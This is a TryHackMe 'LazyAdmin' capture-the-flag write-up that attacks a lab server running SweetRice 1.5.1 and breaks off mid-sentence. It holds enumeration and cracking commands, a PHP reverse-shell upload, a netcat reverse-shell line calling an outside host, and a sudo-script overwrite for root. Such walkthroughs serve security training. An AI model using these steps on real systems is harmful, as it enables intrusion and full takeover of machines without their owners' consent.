


## LazyAdmin Writeup

author: Oskar Biernacki 

platform: TryHackMe

link: https://tryhackme.com/room/lazyadmin

### Gobuster Enumeration  
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.119.124/content/]
Progress: 6110 / 220558 (2.77%)^C
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/content"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 323] [--> http://10.10.119.124/content/images/]
/js                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/js/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.119.124/content/inc/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/as/]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.119.124/content/_themes/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.119.124/content/attachment/]

```

### Manual Enumeration  
---

The content of `http://10.10.119.124/content/inc/lastest.txt` is `1.5.1`.  
This shows us that the CMS version is probably 1.5.1.  

At `http://10.10.119.124/content/as/` there is a login page for a CMS called `SweetRice`.

The system seems to be:
```  
SweetRice 1.5.1
```  

### Weaponization
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit SweetRice 1.5.1
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                  | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                    | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                        | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                               | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                          | php/webapps/40700.html
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

It looks like this version of SweetRice is vulnerable.

### Exploitation
---

Following `SweetRice 1.5.1 - Backup Disclosure`, we can download an SQL backup from `http://10.10.119.124/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`.  

The only interesting thing there is:
```
'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```  

Especially: 
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

It's giving us credentials for the manager.

After running 
```bash
hashcat -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

we have:


| user     | password (hash)                  | cracked      |
|----------|----------------------------------|--------------|
| `manager`| `42f749ade7f9e195bf475f37a44cafcb` | `**********` |


Let's test if it works for the admin panel or SSH.  

Login at `http://10.10.119.124/content/as/` works.  


Now I try to upload a `.php` file at `http://10.10.119.124/content/as/?type=media_center&dir=test/`  
But uploading a `.php` file does not work (some filters).  
Anyway, there is an `Extract zip archive?` option while uploading.
  

Using a reverse shell from pentestmonkey:   
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php 
```
I created `shell.php` and packed it into a zip file.  

After triggering it, we have a shell.



### Privilege Escalation  
---

```bash
$ cat mysql_login.txt
rice:randompass
```

Interesting sudo for www-data:
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
I followed this privilege and found out that we can write and execute `/etc/copy.sh`, which can be run as root with sudo.

```bash
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh    
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls /etc/copy.sh -la
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

So we can easily get root:  
```bash
$ echo "/bin/bash" > /etc/copy.sh && sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And now we can read all